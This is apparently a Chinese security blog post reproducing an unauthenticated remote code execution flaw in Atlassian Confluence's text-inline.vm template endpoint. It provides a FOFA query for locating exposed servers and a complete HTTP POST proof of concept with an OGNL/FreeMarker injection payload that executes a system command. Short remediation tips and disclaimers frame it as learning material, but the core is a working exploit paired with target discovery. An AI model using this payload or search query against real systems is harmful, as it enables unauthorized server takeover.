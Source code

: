 #  漏洞复现 | Atlassian Confluence远程代码执行漏洞【附poc】   
原创 实战安全研究  实战安全研究   2024-05-27 18:44  
  
**免责声明**  
  
**本文仅用于技术学习和讨论。请勿使用本文所提供的内容及相关技术从事非法活动**  
**，由于传播、利用此文所提供的内容或工具而造成的任何直接或者间接的后果及损失，**  
**均由使用者本人负责，所产生的一切不良后果均与文章作者及本账号**  
**无关**  
**，本次测试仅供学习使用。**  
**如有内容争议或侵权，请及时私信我们！****我们会立即删除并致歉。谢谢！**  
##   
  
**一、漏洞简述**  
  
Atlassian Confuence是一款由Atlassian开发的企业团队协作和知识管理软件，提供了一个集中化的平台，用于创建、组织和共享团队的文档、知识库、项目计划和协作内容。是面向大型企业和组织的高可用性、可扩展性和高性能版本。  
其  
text-inline.vm  
接口  
存在远程代码执行漏洞，  
该漏洞源于存在模板注入漏洞，  
未经身份验证  
的恶意攻击者  
可以  
实现远程代码执行，  
进而控制服务器系统  
。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF3rB5WU9YKEdtCZibrt3FaWwpK73KXC8pcO7TZ7YfYCdPbkRARB6xtShBowRErfKkQUV7S8vqgs9ibQ/640?wx_fmt=png&from=appmsg "")  
## 二、网络测绘  
```
fofa：
app="ATLASSIAN-Confluence" && body="由 Atlassian 合流8.5.3"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF3rB5WU9YKEdtCZibrt3FaWwEhdqUXGFcia4zFmKUhGMNWtMo7s7jABaxfMYdoVbke65YqjSm4L3Saw/640?wx_fmt=png&from=appmsg "")  
## 三、漏洞复现  
  
测试执行  
id命令  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF3rB5WU9YKEdtCZibrt3FaWw1ANEnVRnhpDSyRLPdfFuJ0vO4LEXnfZ9EDpffg9beL1icDtm6GpLjRQ/640?wx_fmt=png&from=appmsg "")  
  
**四、漏洞检测poc**  
```
POST /template/aui/text-inline.vm HTTP/2
Host: 0.0.0.0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept-Encoding: gzip, deflate, br
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 278

label=aaa\u0027%2b#request.get(\u0027.KEY_velocity.struts2.context\u0027).internalGet(\u0027ognl\u0027).findValue(#parameters.poc[0],{})%2b\u0027&poc=@org.apache.struts2.ServletActionContext@getResponse().setHeader('Cmd',(new+freemarker.template.utility.Execute()).exec({'id'}))
```  
  
  
**五、漏洞修复**  
  
1  
、建议联系厂商打补丁或升级版本。  
  
2、增  
加Web应用防火墙防护。  
  
3、  
关闭互联网暴露面或接口设置访问权限。  
  
**免责声明**  
  
**本文仅用于技术学习和讨论。请勿使用本文所提供的内容及相关技术从事非法活动**  
**，由于传播、利用此文所提供的内容或工具而造成的任何直接或者间接的后果及损失，**  
**均由使用者本人负责，所产生的一切不良后果均与文章作者及本账号**  
**无关**  
**，本次测试仅供学习使用。**  
**如有内容争议或侵权，请及时私信我们！****我们会立即删除并致歉。谢谢！**  
  
  
